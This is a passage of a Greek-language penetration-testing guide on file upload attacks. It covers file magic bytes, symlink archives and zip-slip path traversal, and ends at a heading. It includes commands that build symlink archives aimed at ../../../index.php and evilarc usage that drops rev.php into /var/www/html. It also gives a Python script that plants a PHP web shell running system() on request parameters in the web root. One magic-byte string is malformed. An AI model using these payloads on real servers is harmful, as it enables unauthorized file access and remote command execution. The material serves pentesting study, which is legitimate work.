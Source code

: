 * **PNG**: `"\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03["`
* **JPG**: `"\xff\xd8\xff"`

Ανατρέξτε στο [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) για άλλους τύπους αρχείων.

### Αυτόματη αποσυμπίεση αρχείου Zip/Tar κατά τη μεταφόρτωση

Αν μπορείτε να ανεβάσετε ένα ZIP που πρόκειται να αποσυμπιεστεί μέσα στον server, μπορείτε να κάνετε 2 πράγματα:

#### Symlink

Ανεβάστε έναν σύνδεσμο που περιέχει μαλακούς συνδέσμους σε άλλα αρχεία, στη συνέχεια, αποκτώντας πρόσβαση στα αποσυμπιεσμένα αρχεία θα αποκτήσετε πρόσβαση στα συνδεδεμένα αρχεία:
```
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```
### Αποσυμπίεση σε διαφορετικούς φακέλους

Η απροσδόκητη δημιουργία αρχείων σε καταλόγους κατά τη διάρκεια της αποσυμπίεσης είναι ένα σημαντικό ζήτημα. Παρά τις αρχικές υποθέσεις ότι αυτή η ρύθμιση μπορεί να προστατεύει από την εκτέλεση εντολών σε επίπεδο λειτουργικού συστήματος μέσω κακόβουλων αναβαθμίσεων αρχείων, η υποστήριξη ιεραρχικής συμπίεσης και οι δυνατότητες διαδρομής καταλόγου της μορφής ZIP μπορούν να εκμεταλλευτούν. Αυτό επιτρέπει στους επιτιθέμενους να παρακάμψουν περιορισμούς και να ξεφύγουν από ασφαλείς καταλόγους αναβάθμισης, χειραγωγώντας τη λειτουργικότητα αποσυμπίεσης της στοχευμένης εφαρμογής.

Μια αυτοματοποιημένη εκμετάλλευση για τη δημιουργία τέτοιων αρχείων είναι διαθέσιμη στο [**evilarc στο GitHub**](https://github.com/ptoomey3/evilarc). Το εργαλείο μπορεί να χρησιμοποιηθεί όπως φαίνεται:
```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```
Επιπλέον, το **trick symlink με το evilarc** είναι μια επιλογή. Εάν ο στόχος είναι να στοχεύσετε ένα αρχείο όπως το `/flag.txt`, θα πρέπει να δημιουργηθεί ένα symlink σε αυτό το αρχείο στο σύστημά σας. Αυτό διασφαλίζει ότι το evilarc δεν θα συναντήσει σφάλματα κατά τη διάρκεια της λειτουργίας του.

Παρακάτω είναι ένα παράδειγμα κώδικα Python που χρησιμοποιείται για τη δημιουργία ενός κακόβουλου zip αρχείου:
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
**Κατάχρηση συμπίεσης για file spraying**
